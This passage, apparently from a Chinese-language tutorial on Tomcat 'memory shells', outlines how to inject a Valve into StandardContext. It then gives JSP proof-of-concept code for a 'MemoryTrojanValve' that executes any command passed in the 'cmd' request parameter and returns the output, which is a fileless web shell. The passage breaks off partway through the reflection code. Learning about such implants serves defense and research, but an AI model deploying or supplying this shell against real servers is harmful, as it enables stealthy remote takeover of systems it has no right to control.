 ### 5.2 PoC 编写

1. 思路总结：

    1. 获取到四大容器之一，以 `StandardContext` 为例。
    2. 自定义 `Valve`，官方有 `ValveBase` 可供使用。
    3. 调用 `StandardContext.addValve()`。

2. PoC：
    ```jsp
    <%@ page import="java.io.IOException" %>
    <%@ page import="java.lang.reflect.Field" %>
    <%@ page import="org.apache.catalina.core.ApplicationContext" %>
    <%@ page import="org.apache.catalina.core.StandardContext" %>
    <%@ page import="org.apache.catalina.valves.ValveBase" %>
    <%@ page import="org.apache.catalina.connector.Request" %>
    <%@ page import="org.apache.catalina.connector.Response" %>
    <%@ page import="java.io.InputStreamReader" %>
    <%@ page import="java.io.BufferedReader" %>
    <%@ page import="java.io.InputStream" %>
    <%--
      Created by IntelliJ IDEA.
      User: hasee
      Date: 2023/5/5
      Time: 9:58
      To change this template use File | Settings | File Templates.
    --%>
    <%@ page contentType="text/html;charset=UTF-8" language="java" %>
    <html>
    <head>
        <title>Title</title>
    </head>
    <body>
    <%!
        public class MemoryTrojanValve extends ValveBase {
            @Override
            public void invoke(Request request, Response response) throws IOException, ServletException {
                InputStream inputStream = Runtime.getRuntime().exec(request.getParameter("cmd").trim()).getInputStream();
                BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(inputStream, "GB2312"));
                String line;
                StringBuilder result = new StringBuilder();
                while ((line = bufferedReader.readLine()) != null) {
                    result.append(line).append("\n");
                }
                bufferedReader.close();
                inputStream.close();
                System.out.println(result);
                response.setCharacterEncoding("GB2312");
                response.getWriter().write(result.toString().replaceAll("\n", "<\\br>"));
                response.getWriter().flush();
                response.getWriter().close();
            }
        }
    %>
    <%
        // 1. 获取 StandardContext
        ServletContext servletContext = request.getServletContext();
        // ServletContext 中有 ApplicationContext，ApplicationContext 中又有 StandardContext。通过反射获取到 ApplicationContextField。
        Field applicationContextField = servletContext.getClass().getDeclaredField("context");
        applicationContextField.setAccessible(true);
        // 通过反射拿到 servletContext 具体的 ApplicationContext